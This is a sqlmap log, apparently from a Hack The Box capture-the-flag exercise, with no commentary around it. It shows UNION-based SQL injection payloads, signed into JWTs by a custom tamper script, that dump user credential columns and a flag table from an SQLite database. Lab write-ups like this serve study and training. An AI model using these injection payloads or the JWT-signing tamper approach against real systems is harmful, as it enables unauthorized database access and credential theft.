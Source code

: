 ```bash
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(255 AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(PRIMARY AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(id AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(password AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(username AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM users LIMIT 1,1),NULL-- Hhil
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(255 AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(PRIMARY AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(id AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(password AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(username AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM users-- bGYt
[14:29:18] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[14:29:18] [WARNING] unable to retrieve the entries for table 'users' in database 'SQLite_masterdb'
[14:29:18] [INFO] fetching columns for table 'flag_storage' in database 'SQLite_masterdb'
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,MIN(CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(sql AS TEXT),CAST(X'20' AS TEXT)))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_master WHERE tbl_name=CAST(X'666c61675f73746f72616765' AS TEXT)-- Jyfb
[14:29:18] [INFO] fetching entries for table 'flag_storage' in database 'SQLite_masterdb'
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(COUNT(*) AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM flag_storage-- QlEZ
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(id AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(top_secret_flaag AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM flag_storage-- JwwZ
Database: SQLite_masterdb
Table: flag_storage
[1 entry]
+----+---------------------------------+
| id | top_secret_flaag                |
+----+---------------------------------+
| 1  | HTB{d0n7_3xp053_y0ur_publ1ck3y} |
+----+---------------------------------+

[14:29:18] [INFO] table 'SQLite_masterdb.flag_storage' dumped to CSV file '/home/vscode/.local/share/sqlmap/output/178.128.46.168/dump/SQLite_masterdb/flag_storage.csv'
[14:29:18] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 4 times
[14:29:18] [INFO] fetched data logged to text files under '/home/vscode/.local/share/sqlmap/output/178.128.46.168'

[*] ending @ 14:29:18 /2021-01-06/
```